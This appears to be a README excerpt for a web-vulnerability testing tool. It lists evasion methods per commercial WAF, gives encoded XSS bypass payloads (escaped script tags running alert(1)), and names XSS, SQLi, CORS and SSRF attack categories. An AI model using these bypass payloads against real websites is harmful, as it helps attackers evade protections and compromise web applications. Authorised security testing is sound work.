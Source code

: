 ## 🛡️ WAF Bypass Techniques

### Supported WAF Types
- **Cloudflare**: Unicode techniques, zero-width characters
- **Akamai**: Hex encoding, CSS injection
- **AWS WAF**: JSON encoding, mixed case
- **Imperva**: Unicode encoding, PHP serialization
- **Sucuri**: Basic evasion techniques
- **F5 Big-IP**: Advanced encoding combinations
- **ModSecurity**: Pattern obfuscation

### Example WAF Bypasses
```javascript
// Cloudflare Bypass
𒀀="",𒉺=!𒀀+𒀀

// Akamai Bypass
\x3cscript\x3ealert(1)\x3c/script\x3e

// AWS WAF Bypass
"<script>alert(1)</script>"

// Imperva Bypass
\u003cscript\u003ealert(1)\u003c/script\u003e
```

## 🎯 Vulnerability Categories

### 🚨 Cross-Site Scripting (XSS)
- Reflected XSS
- Stored XSS  
- DOM-based XSS
- Blind XSS
- mXSS (Mutation XSS)

### 💉 SQL Injection
- Union-based SQLi
- Boolean-based blind SQLi
- Time-based blind SQLi
- Error-based SQLi

### 🌐 CORS Misconfiguration
- Origin reflection
- Null origin bypass
- Subdomain wildcard abuse

### 🔗 Server-Side Request Forgery (SSRF)
- Internal network access
- Cloud metadata exploitation
- Protocol confusion
